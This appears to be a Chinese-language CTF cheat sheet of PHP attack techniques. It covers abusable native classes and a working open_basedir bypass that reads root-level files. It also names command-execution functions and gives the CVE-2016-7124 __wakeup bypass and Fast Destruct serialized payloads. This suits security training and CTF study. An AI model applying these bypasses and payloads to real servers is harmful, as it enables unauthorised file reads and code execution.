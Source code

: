 ### 原生类利用
Error
Exception
SoapClient
#### DirectoryIterator

SimpleXMLElement

参考
https://www.anquanke.com/post/id/238482

## open_basedir绕过
https://www.v0n.top/2020/07/10/open_basedir%E7%BB%95%E8%BF%87/
```php
//查看根目录
var_dump(scandir('glob:///*'));

//读取文件,
mkdir('Von');chdir('Von');ini_set('open_basedir','..');chdir('..');chdir('..');chdir('..');ini_set('open_basedir','/');echo file_get_contents('/f1ger');
```
## 命令执行函数
```php
system,exec,shell_exec,fopen,pcmtl_exe,passthru,popen

```
### phpinfo信息收集

## 反序列化技巧
### 绕过wakeup

> CVE-2016-7124
> 利用条件：
> PHP5 < 5.6.25
> ​PHP7 < 7.0.10
> 
> 利用方式：序列化字符串中表示对象属性个数的值大于真实的属性个数时会跳过__wakeup的执行
### Fast Destruct
```php
$payload = 'a:2:{i:0;O:7:"classes":0:{}i:1;O:4:"Test":0:{}';
$payload = 'a:3:{i:0;O:7:"classes":0:{}i:1;O:4:"Test":0:{}}';
$payload = 'a:2:{i:0;O:7:"classes":0:{}i:1;O:4:"Test":0:{};}';
```
